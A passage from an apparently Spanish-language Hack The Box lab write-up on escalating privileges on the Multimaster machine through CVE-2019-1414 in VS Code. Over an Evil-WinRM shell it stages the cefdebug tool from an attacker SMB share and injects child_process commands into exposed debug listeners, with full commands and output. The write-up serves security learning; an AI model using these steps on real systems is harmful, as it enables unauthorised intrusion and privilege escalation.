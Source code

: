 
Vamos a la ruta, lo ejecutamos con el panel de ayuda y y este nos devuelve su version.

```powershell
*Evil-WinRM* PS C:\Program Files\Microsoft VS Code\bin> .\code -h
Visual Studio Code 1.37.1

Usage: code.exe [options][paths...]
```


Despues de realizar una busqueda encontramos el `CVE-2019-1414` asociado a esta version para elevegar privilegios a traves de la exposicion de un debug listener.

![](/assets/images/HTB/htb-writeup-Multimaster/multi7.PNG)

Mayor detalle en el articulo a continuacion:

* [https://iwantmore.pizza/posts/cve-2019-1414.html]( https://iwantmore.pizza/posts/cve-2019-1414.html)


Usaremos la herramienta `cefdebug` de github para explotar esta vulnerabilidad

* [https://github.com/taviso/cefdebug](https://github.com/taviso/cefdebug)

Nos descargamos el ejecutable y lo subimos a la maquina victima en este caso lo hare con un recurso compartido, pero se puede hacer de muchas maneras.

```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

```powershell
*Evil-WinRM* PS C:\WIndows\Temp\Priv> copy \\10.10.16.6\smbFolder\ceffdebug.exe ceffdebug.exe
```

Para ejecutarlo solo debemos seguir los pasos tal cual el repositorio.

```powershell
*Evil-WinRM* PS C:\WIndows\Temp\Priv> .\ceffdebug.exe
ceffdebug.exe : [2023/04/02 09:05:12:5013] U: There are 6 tcp sockets in state listen.
    + CategoryInfo          : NotSpecified: ([2023/04/02 09:...n state listen.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2023/04/02 09:05:32:5800] U: There were 4 servers that appear to be CEF debuggers.
[2023/04/02 09:05:32:5800] U: ws://127.0.0.1:11996/b1874235-1857-4869-9ded-b35ae9c0f43d
[2023/04/02 09:05:32:5800] U: ws://127.0.0.1:52031/ef49c60c-66f9-448b-82a9-b08dc1a07022
[2023/04/02 09:05:32:5800] U: ws://127.0.0.1:24483/2f82f71d-03eb-4e62-ae62-8e8cd1a041c1
[2023/04/02 09:05:32:5800] U: ws://127.0.0.1:43978/c8928169-15af-4124-83a5-42b180e1b697
*Evil-WinRM* PS C:\WIndows\Temp\Priv> .\ceffdebug.exe --url ws://127.0.0.1:24483/2f82f71d-03eb-4e62-ae62-8e8cd1a041c1 --code "process.mainModule.require('child_process').exec('ping 10.10.16.6')"
ceffdebug.exe : [2023/04/02 09:05:58:8202] U: >>> process.mainModule.require('child_process').exec('ping 10.10.16.6')
    + CategoryInfo          : NotSpecified: ([2023/04/02 09:...ng 10.10.16.6'):String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
```